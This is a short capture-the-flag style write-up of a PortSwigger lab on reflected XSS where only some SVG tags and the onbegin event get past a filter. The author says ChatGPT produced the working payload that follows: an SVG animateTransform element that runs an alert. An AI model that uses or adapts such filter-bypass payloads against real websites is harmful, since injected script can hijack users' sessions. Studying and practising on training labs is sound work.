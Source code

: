 #reflected-xss 

Reflected XSS with some SVG markup allowed: [link](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-some-svg-markup-allowed)

This lab has a simple reflected XSS vulnerability. The site is blocking common tags but misses some SVG tags and events.'

In this challenge, the WAF blocks all HTML tags except for SVG-related tags such as `<svg>`, `<rect>`, and `<animateTransform>`. Additionally, all attributes are blocked **except** for `onbegin`.

So, I asked **ChatGPT** to generate a payload using this information, and it provided me with the following code:

```javascript
<svg xmlns="http://www.w3.org/2000/svg" width="100" height="100">

<rect width="100" height="100" fill="red">

<animateTransform

attributeName="transform"

type="scale"

from="1"

to="2"

dur="0.1s"

begin="0s"

onbegin="alert('XSS')"

repeatCount="1"

/>

</rect>

</svg>
```

i test it and it works :)